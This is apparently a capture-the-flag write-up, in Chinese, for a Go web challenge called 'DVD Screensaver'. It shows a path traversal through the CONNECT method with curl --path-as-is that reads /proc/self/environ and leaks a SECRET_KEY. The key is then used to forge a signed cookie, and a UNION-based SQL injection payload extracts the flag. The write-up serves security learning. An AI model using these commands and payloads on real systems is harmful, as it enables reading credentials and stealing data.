 # DVD Screensaver

一開始看了一下 code 沒什麼頭緒就去網路上找找看資料，找到了一篇滿有用的文章：https://ilyaglotov.com/blog/servemux-and-path-traversal，然後回去看 code 就發現 `/static/` 這個 route 可以用來操作 path traversal attack。

在 go http 的 document 中（https://pkg.go.dev/net/http#ServeMux.Handler）有提到如果使用 CONNECT method，不會改變 request 的 path 以及 host：

> The path and host are used unchanged for CONNECT requests.

這邊要使用 curl 的 `--path-as-is` 讓 path 維持 `static/login.css/../../../proc/self/environ`，如果沒有這個參數 curl 會把 path 會變成 `/proc/self/environ`  再送出，接著使用 CONNECT method 就可以拿到存在環境變數中的 `SECRET_KEY`

```
$ curl --output - -v -X CONNECT --path-as-is http://dvd.chal.h4ck3r.quest:10001/static/login.css/../../../proc/self/environ

*   Trying 139.162.124.237:10001...
* Connected to dvd.chal.h4ck3r.quest (139.162.124.237) port 10001 (#0)
> CONNECT /static/login.css/../../../proc/self/environ HTTP/1.1
> Host: dvd.chal.h4ck3r.quest:10001
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type:
< Date: Fri, 29 Oct 2021 12:55:12 GMT
< Content-Length: 202
<
* Connection #0 to host dvd.chal.h4ck3r.quest left intact
PATH=/go/bin:/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=9ad75fc686b9SECRET_KEY=d2908c1de1cd896d90f09df7df67e1d4GOLANG_VERSION=1.17.2GOPATH=/goHOME=/root%
```

SECRET_KEY=d2908c1de1cd896d90f09df7df67e1d4

有了 SECRET_KEY 後就可以在本地端產生自己想要的 username 的 signed cookie，把這個自己生的 cookie 丟到 http://dvd.chal.h4ck3r.quest:10001/ 就可以操作 SQL injection。

我使用了這個 pattern 來操作 SQL Injection: `' UNION SELECT username, flag FROM users WHERE uid={i}#`，接著就不斷增加 i 來找有 FLAG 的那個 user，就可以拿到 FLAG 了。

![image-20211030034639942](img/image-20211030034639942.png)